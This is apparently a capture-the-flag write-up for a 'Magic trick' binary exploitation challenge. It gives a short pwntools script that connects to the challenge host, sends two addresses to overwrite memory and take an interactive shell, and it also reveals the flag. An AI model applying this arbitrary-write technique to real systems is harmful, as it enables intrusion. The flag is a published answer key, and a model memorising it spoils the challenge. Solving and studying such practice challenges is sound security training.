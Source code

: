 # Magic trick

## Description

How about a magic trick?

`nc dctf-chall-magic-trick.westeurope.azurecontainer.io 7481`

[magic_trick](magic_trick)

## Solution

```python
from pwn import *

nc = remote('dctf-chall-magic-trick.westeurope.azurecontainer.io', 7481)

nc.recvline()
nc.sendline(str(0x400667))

nc.recvline()
nc.sendline(str(0x600a00))

nc.interactive()
```

#### **FLAG >>** `dctf{1_L1k3_M4G1c}`